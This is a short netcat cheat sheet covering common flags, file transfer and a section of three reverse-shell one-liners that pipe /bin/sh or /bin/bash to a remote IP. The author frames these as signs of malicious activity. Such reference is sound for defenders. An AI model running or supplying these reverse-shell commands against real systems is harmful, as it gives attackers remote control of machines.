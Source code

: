 ```yaml
---
title: 'CheatSheet: netcat'
description: 'Arbitrary TCP and UDP connections and listens.'
---
```

- ## CheatSheet: netcat
	---
	Netcat is a networking tool that can provide simple network connections to read or write data between remote endpoints. This tool is useful for troubleshooting networks, exploring remote resources, and creating ad-hoc communication channels.

	Unexpected use of this utility may be an indicator of malicious activity.

- ## Basic Usage
	---
	```
	// Arbitrary TCP and UDP connections and listens.
	nc [options] <hostname> <dest_port(s)> 
	```

- ## Common Flags
	---
	[-4] Forces nc to use IPv4 addresses.
	
	[-6] Forces nc to use IPv6 addresses.
	
	[-i] Interval, specifies a delay time interval betweens lines of text sent/recieved.
	
	[-k] Forces nc to stay listening for another connection after its current connection is completed.
	
	[-l] Listen for connections.
	
	[-n] Do not make and DNS/service lookups on specified addresses, hostnames, or ports.
	
	[-p] Source Port
	
	[-r] Select source/destination ports randomly instead of sequentially.
	
	[-s] Source IP Address
	
	[-u] Use UDP instead of TCP.
	
	[-w] Timeout, silently close connection if connection/stdin are idle for more than timeout seconds.

- ## File Transfers
	---
	```
	// On the file recipient.
	nc -l -p 40000 > out.file
	
	// On the file sender.
	nc -w 3 10.10.10.10 40000 < in.file
	```

- ## Reverse Shell
	---
	This activity is highly unsual for a network admin to perform. If the following commands are observed, they should be viewed with extreme caution. I recommend establishing connections with more traditional methods for day-to-day admin activity.
	```
	// Standard
	nc -e /bin/sh 10.0.0.1 40001
	
	// -e is not available, OpenBSD
	nc 10.0.0.2 40002 | /bin/bash | nc 10.0.0.2 40002
	
	// -e is not available
	rm /tmp/f; mkfifo /tmp/f; cat tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.3 40003 > /tmp/f
	```
